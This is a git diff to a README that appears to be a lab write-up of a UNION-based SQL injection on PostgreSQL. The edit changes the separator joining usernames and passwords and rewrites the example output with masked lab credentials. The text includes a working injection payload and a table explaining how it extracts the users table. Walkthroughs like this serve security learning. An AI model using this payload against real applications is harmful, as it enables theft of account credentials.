

retrieving username and password

diff --git a/Web-Attacks/sql-injection-union-single-column/README.md b/Web-Attacks/sql-injection-union-single-column/README.md
@@ -128,7 +128,7 @@ The application only displayed one column that could contain text, but the infor
 To return both values in a single column, I used PostgreSQL's string concatenation operator (`||`). I also added the `~` character between the username and password to make the output easier to read.
 
 ```sql
-Gift' UNION SELECT NULL, username||'~'||password FROM users--
+Gift' UNION SELECT NULL, username||':'||password FROM users--
 ```
 **Breakdown**
 
@@ -139,7 +139,7 @@ Gift' UNION SELECT NULL, username||'~'||password FROM users--
 | `NULL` | Placeholder for the first column. |
 | `username` | Retrieves the username from the `users` table. |
 | `||` | PostgreSQL string concatenation operator used to join values together. |
-| `'~'` | Adds a separator between the username and password, making the output easier to read. |
+| `':'` | Adds a separator between the username and password, making the output easier to read. |
 | `||` | Concatenates the next value to the existing string. |
 | `password` | Retrieves the password from the `users` table. |
 | `FROM users` | Specifies that the data should be retrieved from the `users` table. |
@@ -147,7 +147,7 @@ Gift' UNION SELECT NULL, username||'~'||password FROM users--
 
 This payload combines the username and password into a single value, such as **administrator~password**, allowing both values to be returned in the same column.
 
-After confirming that the payload executed successfully, I proceeded to retrieve all usernames and passwords from the database.
+This made it easy to identify each username and its corresponding password. In the next step, I used this payload to retrieve all usernames and passwords from the `users` table.
 
 <p align="center">
   <img src="images/step4-1.png" width="600">
@@ -155,16 +155,16 @@ After confirming that the payload executed successfully, I proceeded to retrieve
 
 ## Step 5 - Retrieving Usernames and Passwords
 
-After combining the username and password values into a single column, I sent the request using the payload from the previous step.
+After sending the payload from the previous step, the application returned the data from the users table.
 
-The application returned the contents of the users table, with each username and password separated by the ~ character.
+Each result contained a username and password separated by the `:` character, making it easy to identify which password belonged to each user.
 
-Example output:
-
-administrator~8k2m4x7n9p1q5r6s
-carlos~mypassword
-wiener~letmein
-
+**Output:**
+```
+administrator:mgp.................
+carlos:2xx.................
+wiener:z2y.................
+```
 The response contained the credentials for all users, including the administrator account.
 
 <p align="center">
